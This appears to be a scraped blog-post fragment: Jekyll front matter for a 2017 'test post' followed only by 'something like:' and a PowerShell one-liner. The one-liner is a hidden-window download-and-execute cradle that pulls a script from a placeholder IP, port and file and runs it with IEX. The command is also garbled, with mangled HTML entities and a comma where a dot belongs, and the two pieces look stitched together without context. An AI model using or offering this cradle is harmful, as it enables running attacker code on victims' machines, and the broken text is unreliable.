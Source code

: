 ```yaml
---
layout: post
title: "Lillian Warner, test post"
date: 2017-06-23
---
```

something like:
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient),downloadstring('http://&ltip&gt&ltort&gt/&ltfile&gt'))"
